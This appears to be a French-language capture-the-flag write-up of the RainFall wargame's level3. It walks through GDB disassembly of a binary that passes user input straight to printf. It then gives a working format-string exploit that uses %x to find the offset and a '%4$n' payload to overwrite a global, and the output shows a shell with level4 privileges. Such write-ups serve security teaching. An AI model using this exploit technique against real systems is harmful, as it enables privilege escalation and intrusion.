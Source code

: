 En lançant GDB on s'appercoit que dans la fonction v appelé par le main il y a un fgets et que l'on ne pourra pas faire de buffer overflow car fgets controle le nombre de caractères lu.

```gdb
0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
```

Neanmoins, on voit que printf (et toutes les fonctions de cette familles) est vulnerables aux failles de Format de string et notement aux %n car ce que l'on ecrit avec fgets et passé directement a printf qui fait office de la chaine de format de printf.

```gdb
0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
0x080484cc <+40>:	lea    eax,[ebp-0x208]
0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
0x080484d5 <+49>:	call   0x8048390 <printf@plt>
```

Pour atteindre la fonction system on doit passé une verification.
```gdb
0x080484d5 <+49>:	call   0x8048390 <printf@plt>
0x080484da <+54>:	mov    eax,ds:0x804988c
0x080484df <+59>:	cmp    eax,0x40
0x080484e2 <+62>:	jne    0x8048518 <v+116>
0x080484e4 <+64>:	mov    eax,ds:0x8049880
0x080484e9 <+69>:	mov    edx,eax
0x080484eb <+71>:	mov    eax,0x8048600
0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
0x08048504 <+96>:	mov    DWORD PTR [esp],eax
0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
0x08048513 <+111>:	call   0x80483c0 <system@plt>
```

On tatonne jusqu'a trouver le bon offset a passer a %n pour la modification
```bash
level3@RainFall:~$ python -c "print('\x8c\x98\x04\x08 %x %x %x %x')" > /tmp/exploit3
level3@RainFall:~$ cat /tmp/exploit3 | ./level3
� 200 b7fd1ac0 b7ff37d0 804988c
```
On doit bien lui passer 4 pour atteindre la variables a modifier pour passer la verification.
```bash
level3@RainFall:~$ python -c "print('\x8c\x98\x04\x08' + 'B' * 60 + '%4\$n')" > /tmp/exploit3
level3@RainFall:~$ cat /tmp/exploit3
�BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB%4$n
level3@RainFall:~$ cat /tmp/exploit3 - | ./level3
�BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Wait what?!
id
uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)
```
